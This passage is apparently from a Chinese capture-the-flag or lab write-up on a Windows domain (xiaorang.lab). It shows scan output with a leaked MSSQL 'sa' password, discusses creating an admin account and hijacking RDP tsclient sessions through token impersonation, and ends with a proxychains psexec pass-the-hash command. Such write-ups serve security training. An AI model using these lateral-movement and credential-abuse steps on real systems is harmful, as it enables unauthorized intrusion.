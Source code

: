 ```shell
[*] NetBios: 172.22.8.15     [+]DC XIAORANG\DC01            
[*] NetBios: 172.22.8.31     XIAORANG\WIN19-CLIENT          
[*] NetBios: 172.22.8.46     WIN2016.xiaorang.lab                Windows Server 2016 Datacenter 14393 
[*] WebTitle: http://172.22.8.18        code:200 len:703    title:IIS Windows Server
[*] WebTitle: http://172.22.8.46        code:200 len:703    title:IIS Windows Server
[+] mssql:172.22.8.18:1433:sa 1qaz!QAZ
```

RDP

```shell
172.22.8.15:3389 open
172.22.8.31:3389 open
172.22.8.46:3389 open
172.22.8.18:3389 open
```

NetBIOS

```shell
172.22.8.15 XIAORANG\DC01 # 域控
172.22.8.31 XIAORANG\WIN19-CLIENT
172.22.8.46 WIN2016.xiaorang.lab
172.22.8.18 WIN-WEB # 本机
```

根据上文的提示, 直接创建一个管理员账号连接过去查看用户会话

![image-20230730161210496](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307301612535.png)

![image-20230730161334047](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307301613086.png)

netstat 查看连接信息, 发现是从内网 `172.22.8.31 XIAORANG\WIN19-CLIENT` 上连过来的

![image-20230730162720676](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307301627738.png)

根据题目 tsclient, 参考文章如下

[https://mp.weixin.qq.com/s/Aog7M_6XauRi96wFeRo6sg](https://mp.weixin.qq.com/s/Aog7M_6XauRi96wFeRo6sg)

[https://www.geekby.site/2021/01/红蓝对抗中rdp协议的利用](https://www.geekby.site/2021/01/%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E4%B8%ADrdp%E5%8D%8F%E8%AE%AE%E7%9A%84%E5%88%A9%E7%94%A8/)

[https://www.c0bra.xyz/2021/01/11/RDP反向攻击](https://www.c0bra.xyz/2021/01/11/RDP%E5%8F%8D%E5%90%91%E6%94%BB%E5%87%BB/)

得知需要模拟 John 用户的令牌, 并访问 `\\tsclient`共享 (172.22.8.31)

这里也被坑了好长时间, 无论使用 cs 自带的 make token 还是 msf 的 incognito, 还是 SharpToken, 执行 `dir \\tsclient\c` 都显示拒绝访问, 很怪

无奈翻了下网上的 Writeup, 提示需要 psexec 连过去再用 msf 上线, 之后再用 incognito 就能成功模拟令牌了

```shell
proxychains psexec.py -hashes :2caf35bb4c5059a3d50599844e2b9b1f administrator@172.22.8.18
```
